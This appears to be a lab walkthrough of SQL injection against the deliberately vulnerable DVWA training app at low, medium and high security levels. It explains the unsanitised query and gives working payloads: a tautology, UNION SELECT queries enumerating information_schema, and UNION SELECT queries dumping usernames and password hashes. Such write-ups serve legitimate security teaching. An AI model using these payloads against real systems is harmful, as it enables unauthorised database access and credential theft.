 
Before we begin, we need to ensure that our DVWA security setting is low.

![](https://miro.medium.com/v2/resize:fit:875/1*IAxj-notA6V0rR1eUoz86w.png)

![](https://miro.medium.com/v2/resize:fit:875/1*NlI8462tHeDAuMjRfDDdCQ.png)

source code

The flaw in the code you provided is that it is vulnerable to SQL injection attacks. The vulnerability arises from directly concatenating user input into the SQL query without proper sanitization or parameterization.

Here’s an explanation of the flaw and the recommended solution:

In the code, the variable `$id` is retrieved from the user input without any validation or sanitization. It is then directly concatenated into the SQL query string:

```shell
$id = $_REQUEST['id'];  
$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
```

This allows an attacker to manipulate the value of `$id` and inject malicious SQL code, potentially leading to unauthorized access, data leakage, or even complete loss of data.

![](https://miro.medium.com/v2/resize:fit:860/1*FusC7q2Kc-9sxi1wxAOJWw.png)

This means that the query that was executed back in the database was the following:

==1'== ==OR== =='1'========='1'====#==

![](https://miro.medium.com/v2/resize:fit:575/0*egMjdu5mbW6de-Z0.png)

```sql
'UNION SELECT table_name, NULL FROM information_schema.tables --
```

![](https://miro.medium.com/v2/resize:fit:875/0*ZA4GdY7MYiy7GYjx.png)

```sql
'UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name= 'users' --
```

![](https://miro.medium.com/v2/resize:fit:875/0*1QbwSRIV3MEtI9mg.png)

Now we can see we got both username and encrypted password.

```sql
'UNION SELECT user, password FROM users --
```

![](https://miro.medium.com/v2/resize:fit:716/0*FkVgF4mtYTbQegKe.png)

# Medium

We will intercept the request and send it to the repeater.

![](https://miro.medium.com/v2/resize:fit:529/0*Cy5xuFOO2Zb3jN8-.png)

![](https://miro.medium.com/v2/resize:fit:875/0*9B88s5gKdis9mjkb.png)

Edit id=1 to this code then send it and we can see the results in response.

```sql
1 UNION SELECT user, password FROM users --
```


![](https://miro.medium.com/v2/resize:fit:875/0*FwC4JRBwW19CUAc7.png)

# High

For high level, after clicking the “here to change your ID”, we can see a window where we can insert our malicious code.

![](https://miro.medium.com/v2/resize:fit:713/0*f-p1kRubsUY3WH8D.png)

```sql
' UNION SELECT user, password FROM users --
```

![](https://miro.medium.com/v2/resize:fit:875/0*RAcxqYXxuojPJLjT.png)

After submitting the code, we can get usernames and passwords.

![](https://miro.medium.com/v2/resize:fit:873/0*BWGnasm8voTLe3eH.png)
